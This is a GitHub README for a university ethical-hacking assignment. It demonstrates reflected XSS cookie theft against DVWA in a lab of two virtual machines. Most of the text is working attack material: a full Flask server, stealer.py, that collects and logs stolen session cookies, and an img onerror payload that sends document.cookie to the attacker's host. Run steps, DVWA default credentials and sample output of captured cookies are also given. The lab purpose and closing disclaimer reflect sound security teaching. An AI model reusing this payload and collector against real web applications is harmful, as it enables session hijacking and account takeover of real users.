 # Cookie-Stealer

🕵️ Cookie Stealer via Reflected XSS | CSCI369 Ethical Hacking Assignment (Q2)
This project demonstrates a reflected XSS attack to steal session cookies from a vulnerable web application (DVWA) and send them to a Flask server running on the attacker's Kali Linux machine.

📘 Assignment Objective
"Write a Python program to receive a session cookie via a JavaScript XSS injection and save it with a timestamp. Use Flask on Kali to log cookies sent from DVWA (on Meta2)."

💻 What This Project Does
This project performs a simulated XSS attack in a controlled lab setup. You inject JavaScript into DVWA (hosted on Meta2) that runs in the victim’s browser and sends `document.cookie` to a Flask server running on Kali Linux. The Flask app listens on port 8080 and writes the stolen cookie to a file with a timestamp.

🧪 Lab Setup
VM              Role            Example IP
-------------   --------------  -----------------
Kali Linux      Attacker        10.0.2.15
Meta2 (DVWA)    Victim          10.0.2.4

🔧 How to Run the Flask Server
💡 Prerequisites
- Kali Linux VM with Python 3 and Flask installed
- Meta2 VM with DVWA accessible at http://10.0.2.4/dvwa
- Both VMs on the same NAT network

▶️ Flask Setup (on Kali)
```bash
sudo apt update
sudo apt install python3-venv -y

mkdir ~/myproject
cd ~/myproject
python3 -m venv venv
source venv/bin/activate
pip install Flask

# Save the stealer.py file below and run it:
python3 stealer.py
```

📄 Flask Code (stealer.py)
```python
# ================================================
# 🍪 Cookie Stealer Flask Server – CSCI369 Assignment Q2
# Sheethal Santhanam (Kali IP: 10.0.2.15)
# Description:
# This Flask app runs on the attacker's Kali VM.
# It receives cookies via an XSS payload from DVWA (Meta2 VM),
# then logs those cookies with a timestamp to cookies.txt.
# ================================================

from flask import Flask, request              # Flask handles incoming web requests
from datetime import datetime                 # Used to generate timestamps

# Initialize the Flask application
app = Flask(__name__)

# Define a route to receive GET requests at the root URL ("/")
@app.route('/')
def steal_cookie():
    # Try to extract the 'cookie' parameter from the URL query string
    cookie = request.args.get('cookie')

    # If a cookie value is received, process it
    if cookie:
        # Get the current date and time in a readable format
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")

        # Append the cookie and timestamp to a file named cookies.txt
        with open("cookies.txt", "a") as f:
            f.write(f"[{timestamp}] Cookie: {cookie}\n")

        # Send a basic response (victim won't see this during attack)
        return "Cookie received!"

    # If no cookie parameter was found in the request
    return "No cookie found."

# Start the Flask server:
# - host='0.0.0.0' allows connections from outside (Meta2 VM)
# - port=8080 is the server port the attacker listens on
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

💉 JavaScript XSS Payload (xss_payload.txt)
```html
<img src=x onerror="new Image().src='http://10.0.2.15:8080/?cookie='+document.cookie;">
```

📌 How to Test the Cookie Stealing Attack
1. Run Flask server on Kali
2. Visit DVWA at http://10.0.2.4/dvwa (from Kali browser)
3. Login: admin / password
4. Set DVWA Security to "Medium"
5. Navigate to "XSS (Reflected)"
6. Paste the payload above and click Submit
7. In another Kali terminal:
```bash
cd ~/myproject
cat cookies.txt
```
✅ You should see something like:
```
[2025-07-25 18:43:01] Cookie: PHPSESSID=xyz123; security=medium
```

🧠 How It Works
- The JavaScript runs inside DVWA and extracts `document.cookie`
- It silently sends the cookie via HTTP GET to the attacker’s Flask server
- The server logs the cookie in `cookies.txt` with a timestamp

📁 Folder Structure
Q2/
├── stealer.py         # Flask server script
├── xss_payload.txt    # Final JavaScript payload
├── README.txt         # This file

🛑 Disclaimer
This project is for educational purposes only in a controlled lab environment.
Never perform XSS attacks on real-world systems.
Unauthorized access is illegal.

